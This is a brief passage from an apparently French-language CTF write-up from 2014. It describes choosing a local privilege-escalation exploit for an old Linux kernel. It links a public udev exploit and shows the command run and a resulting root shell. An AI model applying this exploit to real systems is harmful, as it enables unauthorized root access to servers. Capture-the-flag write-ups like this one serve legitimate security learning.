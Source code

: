 Le kernel est trop récent pour les failles ptrace et trop à jour pour vmsplice. Il est aussi trop vieux pour certaines failles qui touchent les 2.6.3\* et 3.\*.  

Finalement il fallait insister sur [l'exploit pour UDEV de Kingcope](http://www.exploit-db.com/exploits/8478/). On passe en argument le PID du udev (obtenu via ps) :  

```plain
sh-3.2$ ./udev.sh 569
suid.c: In function 'main':
suid.c:3: warning: incompatible implicit declaration of built-in function 'execl'
sh-3.2# id
uid=0(root) gid=0(root) groups=48(apache)
```

Conclusion
----------

Un CTF sans grande difficulté malheureusement très proche des intrusions qui se font sur des milliers de serveurs chaque jour.

*Published June 03 2014 at 18:34*
